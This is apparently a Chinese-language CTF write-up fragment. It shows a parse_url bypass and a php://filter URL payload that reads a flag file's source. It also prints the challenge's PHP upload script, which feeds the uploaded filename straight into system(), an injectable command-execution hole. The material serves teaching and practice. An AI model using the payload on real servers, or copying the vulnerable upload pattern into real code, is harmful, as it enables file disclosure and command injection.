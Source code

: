 ![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211161415092.png)

看 wp 的时候发现非预期了... 其实利用的是 parse_url 解析漏洞

参考文章 [https://www.cnblogs.com/tr1ple/p/11137159.html](https://www.cnblogs.com/tr1ple/p/11137159.html)

```
//user.php?page=php://filter/read=convert.base64-encode/resource=ffffllllaaaaggg
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211161420798.png)

```php
<?php
if (FLAG_SIG != 1){
    die("you can not visit it directly");
}else {
    echo "you can find sth in m4aaannngggeee";
}
?>
```

根据文件包含去访问 m4aaannngggeee.php

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211161421432.png)

下面还有个 upllloadddd.php

```php
<?php
$allowtype = array("gif","png","jpg");
$size = 10000000;
$path = "./upload_b3bb2cfed6371dfeb2db1dbcceb124d3/";
$filename = $_FILES['file']['name'];
if(is_uploaded_file($_FILES['file']['tmp_name'])){
    if(!move_uploaded_file($_FILES['file']['tmp_name'],$path.$filename)){
        die("error:can not move");
    }
}else{
    die("error:not an upload file！");
}
$newfile = $path.$filename;
echo "file upload success<br />";
echo $filename;
$picdata = system("cat ./upload_b3bb2cfed6371dfeb2db1dbcceb124d3/".$filename." | base64 -w 0");
echo "<img src='data:image/png;base64,".$picdata."'></img>";
if($_FILES['file']['error']>0){
    unlink($newfile);
    die("Upload file error: ");
}
$ext = array_pop(explode(".",$_FILES['file']['name']));
if(!in_array($ext,$allowtype)){
    unlink($newfile);
}
?>
```
